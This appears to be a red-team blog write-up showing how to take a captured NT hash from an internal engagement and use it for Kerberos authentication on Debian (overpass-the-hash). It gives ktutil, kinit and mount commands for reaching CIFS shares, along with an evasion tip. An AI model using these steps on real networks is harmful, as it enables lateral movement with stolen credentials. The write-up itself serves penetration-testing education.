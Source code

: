 ```yaml
---
title: From Pass the Hash (PtH) to Over Pass the Hash (OPtH)
description: Initialize Kerberos from a NT hash
date: 2024-04-16
---
```


# From Pass the Hash (PtH) to Over Pass the Hash (OPtH)

## Objective

During internal engagement, it is common to end up with the NT hash of a user. The following article will show how to use that hash to configure Kerberos authentication.

Furthermore, we'll use that Kerberos authentication to mount CIFS shares.

### References

Special thanks to [Exorcyst](http://passing-the-hash.blogspot.com/2016/06/nix-kerberos-ms-active-directory-fun.html), [n00py](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/) and [ropnp](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Fun_With_LDAP.pdf)! I would not have figured out how do it without them.

## Configuration

> I'm using an LXD container running Debian 10
>
> ```shell
> # container has to be privileged to mount.cifs
> $ incus launch images:debian/10 -c security.privileged=true pth-kerberos
> ```

Install the required package:

```shell
$ sudo apt-get install heimdal-client
```

Configure `/etc/krb5.conf`

```
[libdefaults]
        default_realm = EXAMPLE.COM

        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true

        fcc-mit-ticketflags = true

[realms]
        LAB.BREAKME.CA = {
                kdc = DC.EXAMPLE.COM
                admin_server = DC.EXAMPLE.COM
        }
```

Create `/etc/krb5.keytab`

> Kerberos wants all caps

```shell
# NT hash
$ sudo ktutil.heimdal -k /etc/krb5.keytab add -p <username@FQDN> -e arcfour-hmac-md5 -w <NT hash> --hex -V 5
# For better OPSEC, use AES256
$ sudo ktutil.heimdal -k /etc/krb5.keytab add -p <username@FQDN> -e aes256-cts-hmac-sha1-96 w <aes256 hash> --hex -V 5
```

Get a TGT

```shell
$ kinit.heimdal -t /etc/krb5.keytab <username>@<FQDN>
```

Mount a CIFS share using Kerberos

```shell
$ mount -t cifs -o sec=krb5,vers=2.1, '//<FQDN of server>/<share name>' <mountpoint> -vv
```

